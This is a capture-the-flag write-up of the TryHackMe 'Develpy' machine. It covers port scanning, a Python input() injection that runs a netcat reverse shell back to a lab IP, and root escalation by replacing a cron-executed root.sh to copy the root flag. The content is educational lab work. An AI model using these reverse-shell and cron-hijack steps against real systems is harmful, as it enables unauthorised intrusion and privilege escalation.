 <img width="397" alt="2024-04-30 17_00_23-TryHackMe _ Develpy — Mozilla Firefox" src="https://github.com/Th3l3mic/WriteUps/assets/167564930/b1f1c599-2414-4763-9cf0-c7faceed8793">

<h2>Develpy is a free boot2root machine created by 
<a href="https://tryhackme.com/p/stuxnet">stuxnet</a>, with medium difficulty level.</h2> 

After deploying machine  start nmap scan:

<img width="391" alt="2024-04-30 17_07_39-THM Browser-Based — Mozilla Firefox" src="https://github.com/Th3l3mic/WriteUps/assets/167564930/3fba4340-a7da-4295-9cee-f0cf74d11e78">


Nmap reveals two ports open:

<code>22 for ssh
10000 for snet-sensor-mgmt</code>

Let's try to find out what it is, and connect it with that port in our browser. 
<p></p>
<img width="550" alt="2024-04-30 17_17_14-THM Browser-Based — Mozilla Firefox" src="https://github.com/Th3l3mic/WriteUps/assets/167564930/915fe513-0874-468f-926b-c3f990ed6bc4">


It looks like some python script is running  behind the scenes.
After connecting via telnet it seems that script is asking us for a number and does some ping requests as many times as We provide.
<p></p>

<img width="417" alt="2024-04-30 17_18_27-THM Browser-Based — Mozilla Firefox" src="https://github.com/Th3l3mic/WriteUps/assets/167564930/23126157-bb1f-4844-a121-3216f8733644">
<p></p>


There's a very helpful article made by 
<a href="https://security.szurek.pl/en/why-you-shouldnt-use-input-function/">Kacper Szurek</a> on how to abuse python input() with incjections, and we prepare payload with reverse shell:

<code>__import__('os').system('nc -e /bin/bash 10.10.192.242 1234')</code>

set netcat listener on port 1234 and go! We've got a shell!

Type ls to list files and We found user's flag! There's also few interesting files in this directory that could potentially give us root. 
Sudo -l didn't work, let's check cronjobs. It seems that every minute root.sh is excecuted with root permissions. 

We can't overwrite this file, but we can remove it and created new one with our reverse shell... just one thing, We must give x permission to this one, set our listener and boom, We're root now!


<img width="535" alt="2024-04-30 18_29_22-THM Browser-Based — Mozilla Firefox" src="https://github.com/Th3l3mic/WriteUps/assets/167564930/7c8e5cc0-f507-4f43-8d8d-b223350ba104">

There's one simplest way to get to root flag:

<code>rm root.sh
echo 'cp /root/root.txt /home/king/root.txt' > root.sh </code>

T.

